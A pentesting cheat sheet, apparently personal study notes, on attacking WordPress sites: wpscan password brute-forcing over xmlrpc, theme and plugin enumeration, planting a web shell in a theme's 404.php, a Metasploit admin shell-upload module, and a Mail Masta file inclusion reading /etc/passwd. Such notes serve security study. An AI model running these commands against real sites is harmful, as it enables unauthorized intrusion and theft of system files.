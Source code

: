 ```
sudo wpscan --password-attack xmlrpc -t 20 -U <user> -P <pathWordlist> --url http://<domain>
```

> Interesting paths:

/wp-admin: login
/wp-content/uploads: files contained on the server.

> Manual - Discovery themes

```
curl -s http://<domain>/ | grep themes
```

> Manual - Discovery plugins

```
curl -s http://<domain>/ | grep plugins
```

Other way:

```
nmap -sV --script http-wordpress-enum <IP>
```

> Code Execution

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Click on `Appearance` on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme.

Click on `Select` after selecting the theme, and find a page to edit it.

If for example, we can edit a page such as `404.php` to add a web shell.

Click on `Update File` at the bottom to save. We know that WordPress themes are located at `/wp-content/themes/<theme name>`. We can interact with the web shell via the browser or using `cURL`. As always, we can then utilize this access to gain an interactive reverse shell and begin exploring the target.

Example of RCE:

```
curl http://<domain>/wp-content/themes/twentynineteen/404.php?0=id
```

Metasploit has a module that uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell.

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 
```

> Vulnerable plugins - mail mastra

The source code has a parameter that allows including a file without any validation or input sanitization. By using this, we can include arbitrary files on the web server. Let's take advantage of this to retrieve the content of the file '/etc/passwd' using 'cURL'.

```
curl -s http://domain.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
